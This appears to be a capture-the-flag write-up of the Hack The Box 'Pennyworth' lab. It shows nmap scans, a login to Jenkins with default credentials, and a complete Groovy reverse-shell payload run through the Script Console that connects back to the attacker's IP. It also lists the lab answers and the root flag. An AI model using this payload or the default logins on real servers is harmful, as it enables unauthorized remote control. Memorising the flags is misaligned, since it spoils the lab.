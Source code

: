 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Pennyworth (Tier 1)

## <mark style="color:blue;">Description</mark>

* **Tier&#x20;**<mark style="color:green;">**->**</mark>**&#x20;1**
* **Difficult** <mark style="color:green;">**->**</mark> Very Easy
* **OS** <mark style="color:green;">**->**</mark> Linux
* **Tags&#x20;**<mark style="color:green;">**->**</mark> Common Applications / Jenkins / Java / Reconnaissance / Remote Code Execution\
  &#x20;             / Default Credentials

<figure><img src="../../.gitbook/assets/image (575).png" alt=""><figcaption><p><a href="https://app.hackthebox.com/starting-point?tier=1">https://app.hackthebox.com/starting-point?tier=1</a></p></figcaption></figure>

## <mark style="color:blue;">Write-up</mark>

* With a little research, I started answering the first questions

<figure><img src="../../.gitbook/assets/image (710).png" alt=""><figcaption></figcaption></figure>

> Answer: _**Common Vulnerabilities and Exposures**_

***

<figure><img src="../../.gitbook/assets/image (711).png" alt=""><figcaption></figcaption></figure>

> Answer: _**Confidentiality, Integrity, Availability**_

***

* Then I did an initial port scan using [_Nmap_](../../networks/tools-and-utilities.md#nmap)

{% code lineNumbers="true" %}
```bash
nmap 10.129.197.177 -p- -Pn --min-rate 2500 -oN scan.txt
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (557).png" alt=""><figcaption></figcaption></figure>

***

* I also did an exhaustive scan to get more information about the service running on the open port

<pre class="language-basic" data-line-numbers><code class="lang-basic"><strong>nmap 10.129.197.177 -p8080 -sVC -oN serv_scan.txt
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (558).png" alt=""><figcaption></figcaption></figure>

***

* With this, I answered the next question

<figure><img src="../../.gitbook/assets/image (713).png" alt=""><figcaption></figcaption></figure>

> Answer: _**Jetty 9.4.39.v20210325**_

***

* I found the service was using the HTTP protocol on port 8080, so I visited the content being deployed through the browser. There I found a _Jenkins_ login page, and with a little [research](https://www.jenkins.io/), I learned this is an automation server for web services

<figure><img src="../../.gitbook/assets/image (559).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn more about the HTTP protocol you can go [here](../../networks/protocols/http.md)
{% endhint %}

***

* I tried to log in with common credentials and after trying with the username _root_ and the password _password_, I got in successfully to an administration dashboard. I explored the site and noticed that by scrolling down to the bottom the version of the _Jenkins_ service was shown

<figure><img src="../../.gitbook/assets/image (560).png" alt=""><figcaption><p>snippet</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (562).png" alt=""><figcaption></figcaption></figure>

***

* With this, I answered the next question

<figure><img src="../../.gitbook/assets/image (359).png" alt=""><figcaption></figcaption></figure>

> Answer: _**2.289.1**_

***

* I searched for possible CVEs for this version of _Jenkins_ but didn't find anything. So I explored the options of the dashboard and found that by scrolling down under the _Manage Jenkins_ tab, there was an option named _Script Console_, and with some [research](https://www.jenkins.io/doc/book/managing/script-console/), I learned that it let to interact internally with the server via a type of script called _Groovy_

<figure><img src="../../.gitbook/assets/image (563).png" alt=""><figcaption><p>snippet</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (564).png" alt=""><figcaption><p>snippet</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (565).png" alt=""><figcaption><p>snippet</p></figcaption></figure>

***

* With this, I answered the next question

<figure><img src="../../.gitbook/assets/image (363).png" alt=""><figcaption></figcaption></figure>

> Answer: _**Groovy**_

***

* With this, I could search for more exploitation options under this service, being the objective to gain a shell from the target system. So, to find out possible payloads I looked for help on the _Reverse Shell Cheat Sheet_ from the [_PayloadsAllTheThings_](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master) repository. After exploring and testing some payloads for _Groovy_, we found [one](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#groovy) that worked, and let me gain a shell as the _root_ user. After that, I sanitized the terminal to interact better with the system

{% code title="RevShell.Groovy" overflow="wrap" lineNumbers="true" %}
```groovy
String host="10.10.14.117";
int port=4444;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());
while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());
so.flush();
po.flush();
Thread.sleep(50);
try {p.exitValue();
break;
}catch (Exception e){}};
p.destroy();
s.close();
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (566).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (567).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn about the sanitization process you can go [here](../../linux/useful-shell-resources.md#tty-sanitization)
{% endhint %}

***

* With this and a little research, I answer the next questions

<figure><img src="../../.gitbook/assets/image (571).png" alt=""><figcaption></figcaption></figure>

> Answer: _**cmd.exe**_

***

<figure><img src="../../.gitbook/assets/image (572).png" alt=""><figcaption></figcaption></figure>

> Answer: _**ifconfig**_

***

<figure><img src="../../.gitbook/assets/image (573).png" alt=""><figcaption></figcaption></figure>

> Answer: _**-u**_

***

<figure><img src="../../.gitbook/assets/image (574).png" alt=""><figcaption></figcaption></figure>

> Answer: _**Reverse Shell**_

***

* Then, I went to the _/root_ folder to see its contents and found a _root.txt_ file, finally reading it to obtain the flag

<figure><img src="../../.gitbook/assets/image (569).png" alt=""><figcaption></figcaption></figure>

***

* With this, I got the root flag and pwned the machine

<figure><img src="../../.gitbook/assets/image (245) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**9cdfb439c7876e703e307864c9167a15**_
